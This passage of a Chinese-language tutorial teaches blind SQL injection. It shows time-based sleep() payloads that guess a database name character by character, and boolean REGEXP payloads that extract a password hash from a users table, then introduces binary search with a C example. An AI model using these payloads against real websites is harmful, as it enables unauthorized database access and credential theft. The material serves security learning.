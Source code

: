 ```
1'and if(ascii(substr(database(),1,1))&gt;97,sleep(5),1)# 明显延迟
…
1'and if(ascii(substr(database(),1,1))&lt;100,sleep(5),1)# 没有延迟

1'and if(ascii(substr(database(),1,1))&gt;100,sleep(5),1)# 没有延迟

```

**说明:**数据库名的第一个字符为小写字母d

#### **示例3**

**测试情况：**

```
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^[a-f]' AND
ID=1)
False
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^[0-9]' AND
ID=1)
True
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^[0-4]' AND
ID=1)
False
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^[5-9]' AND
ID=1)
True
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^[5-7]' AND
ID=1)
True
index.php?id=1 and 1=(SELECT 1 FROM users WHERE password REGEXP '^5' AND
ID=1)
True
```

**说明:**密码 hash 的第一个字符为5

更多函数例如 left 以及更详细的用法指南请见这篇文章的字符串部分 [传送门](http://www.k0rz3n.com/2019/01/30/SQL%20%E5%9F%BA%E7%A1%80%E8%AF%AD%E6%B3%95%E7%9A%84%E5%B0%8F%E6%80%BB%E7%BB%93/)

### **2.二分法提取数据**

实际上我们上面的例子里面已经涉及到部分二分法的知识了，二分法对于我们猜解来讲是提高效率的非常好的方法，简单的说就是先和范围中间的值进行比较，然后判断数据是在中间值左边部分还是右边部分，然后继续相同的操作，直到正确猜中

想了一下是画图后来觉得不如直接上代码，下面是 C 语言实现二分法查找的一个例子 ：

```
int search(int arr[],int n,int key)
`{`
　　 int low = 0,high = n-1;
 　　int mid,count=0;
 　　while(low&lt;=high)
　　 `{`
  　　　　mid = (low+high)/2;
  　　　　if(arr[mid] == key)
   　　　　　　return mid;
  　　　　if(arr[mid]&lt;key)
  　　　　　　 low = mid + 1;
  　　　　else
  　　　　　　 high = mid - 1;
 　　`}`
 　　return -1;
`}`
```
